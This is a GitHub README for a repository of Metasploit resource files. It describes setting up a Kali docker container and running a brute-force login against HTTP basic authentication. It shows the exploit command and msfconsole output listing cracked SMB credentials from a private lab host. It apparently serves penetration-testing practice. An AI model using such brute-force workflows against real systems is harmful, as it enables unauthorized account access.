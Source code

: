 # Metasploit-resource-files

## Prepare a password list and a dictionary list
- [pass.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/pass.list)
- [uer.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/user.list)

## Setup docker container 
```sh
$ ./setup.sh
```

## Preparing metasploit resource file(.rc)
- [Brute force login to system using http basic authentication sample (http_basic.rc)](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/http_basic.rc)

## Run the exploit
```sh
$ ./exploit.sh kali_rolling http_basic.rc 2020_test_workspace
```

## Check result
```sh
$ docker exec -it kali_rolling msfconsole

msf6 > workspace
  2020_test_workspace
* default

msf6 > workspace 2020_test_workspace
msf6 > creds
==========
host           origin        service        public         private               realm  private_type  JtR Format
----           ------        -------        ------         -------               -----  ------------  ----------
172.21.121.2   172.21.121.2  445/tcp (smb)  mike           P@ssw0rd                     Password
172.21.121.2   172.21.121.2  445/tcp (smb)  michel         root                         Password
172.21.121.2   172.21.121.2  445/tcp (smb)  Administrator  admin                        Password
```
